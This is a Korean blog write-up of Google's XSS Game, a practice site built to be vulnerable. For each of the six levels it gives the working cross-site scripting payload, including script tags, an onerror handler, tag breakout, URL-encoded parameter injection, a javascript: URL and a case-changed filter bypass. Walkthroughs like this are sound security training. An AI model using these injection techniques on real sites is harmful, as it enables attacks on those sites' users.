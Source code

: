 ```yaml
---
title : "Google XSS Game"
excerpt : "Google XSS Game"
toc: true
toc_sticky: true
categories :
  - Google XSS Game
---
```


## Google XSS Game 

<a href="https://xss-game.appspot.com/?utm_source=webopsweekly&utm_medium=email" target="_blank">Google XSS Game</a>

## Lv.1 Hello, world of XSS
```
입력값을 이스케이프 처리를 하지 않는다고 함. 

문제 클리어 조건은 alert()를 실행하면 됨.
```
```
<script>alert()</script>
```

## Lv.2 Persistence is key
```
<script>를 입력해보면 입력이 안됨.

결국 힌트를 보았음..

우선 defaultmessage를 보면 html tag를 사용 가능함을 알 수 있음.
html tag에는 error 발생 시 javascript를 실행시킬 수 있는 onerror라는 속성이 있음.
```
```
Example

Execute a JavaScript if an error occurs when loading an image:
<img src="image.gif" onerror="myFunction()">
```
```
따라서 onerror를 이용해 alert를 해주면 됨.

<img src="image.gif" onerror=alert()>
```

## Lv.3 That sinking feeling...
```
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```
```
이 코드를 보면 num이 있는데 이곳이 입력값이 들어갈 부분임.  
이미지를 클릭해보면 url은 ```/frame/#1``` 이렇게 됨.  

위 코드에서 img 태그를 닫아버릴꺼임.

'/>로 닫아버리면 이미지 url을 보면 아래처럼 되서 에러 발생.
The requested URL /static/level3/cloud1 was not found on this server.

또한 이미지가 나타나던 부분에는 다음처럼 보여질꺼임.
Image 1
.jpg' />
```
```
따라서 img 태그를 닫아버리고 alert 스크립트를 추가해주면 됨.
```
```
/frame/#1'/><script>alert()</script>
```

## Lv.4 Context matters
```
<script>alert()</script>를 입력하면 문제 설명에도 있는 것처럼
이스케이프 처리가 되어버림.

onload 속성에서 여러 개를 주면 됨.
onload="alert('1'); alert('2')" -> 1 뜨고 2 뜸.
```
```
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```
위 코드를 보면 ```timer``` 부분에 값이 들어가므로 여기에 alert를 주면 됨.
```
<img src="/static/loading.gif" onload="startTimer(''); alert('1');" />
```
위에 처럼 하면 함수 실행 후 alert('1')이 될꺼임.
```
?timer='); alert('
```
근데 안뜸 -> urlencode를 해봄.
```
?timer=')%3b alert(' -> 성공
```

## Lv.5 Breaking protocol
```
url javascript를 이용하면 됨. 
2번 풀 때 알게되었는데 이 때 쓰이네;

<a href="{{ next }}">Next >></a> 이 부분이 있는데
url을 보면 ?next=confirm으로 되어있을꺼임.

이 값을 바꾸면 됨.
```
```
?next=javascript:alert()
```

## Lv.6 Follow the 🐇
```
힌트에서 google.com/jsapi?callback=foo라고 되어있음.
아마도 함수를 호출해주는 건가 봄.

근데 문제에서 https://는 필터링함. 하지만 대소문자 구분은 하지 않음.
처음엔 ':'를 두 번 썼는데 안되어서 Https로 해주니 성공.
```
```
Https://www.google.com/jsapi?callback=alert
```
